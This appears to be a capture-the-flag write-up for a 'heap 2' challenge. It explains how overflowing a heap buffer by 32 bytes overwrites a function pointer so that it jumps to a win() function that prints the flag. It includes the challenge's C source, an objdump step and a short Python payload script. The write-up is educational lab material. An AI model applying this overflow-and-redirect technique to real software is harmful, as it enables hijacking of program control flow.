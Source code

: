 # heap 2
**Description:** Can you handle function pointers?

---

## Steps to Solve

### 1. Inspect the Source Code
To print the flag, we need to execute the `check_win()` function. This function uses a function pointer to the address stored in the variable `x`. Our task is to control the value of `x` and make it point to the address of the `win()` function.

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }
```

---

### 2. Analyze the Program
To find the address of the `win()` function, we can use `objdump` to disassemble the binary and locate the function's address.

```bash
objdump -d chall | grep win
```

![Function Address](image.png)

From the output, we know that the `win()` function is located at address `0x00000000004011a0`.

Next, we need to determine the program's endianness to correctly write the address of the `win()` function into the `x` variable. The output below indicates that the program uses **little-endian** format.

![Endianness Check](image-1.png)

---

### 3. Run the Program
When running the program, we observe the following memory layout:

- `x` is located at `0x17c02b0`
- `safe_var` is located at `0x17c02d0`

The difference between these addresses is 32 bytes. This means we need to input 32 ASCII characters to overwrite `x` with our desired value. By appending the address of the `win()` function to the input, we can overwrite `x` with the correct address.

---

### 4. Exploit the Program
Since we cannot directly input the address of the `win()` function into the `x` variable, we will use a Python script to construct the payload.

```python
import sys

address = b'00000000004011a0'
little_endian_address = bytes.fromhex(address.decode('utf-8'))[::-1]
sys.stdout.buffer.write(b'2\n' + b'A' * 32 + little_endian_address + b'\n' + b'4\n')
```

Run the script and pipe its output to the program:

![Exploit Output](image-3.png)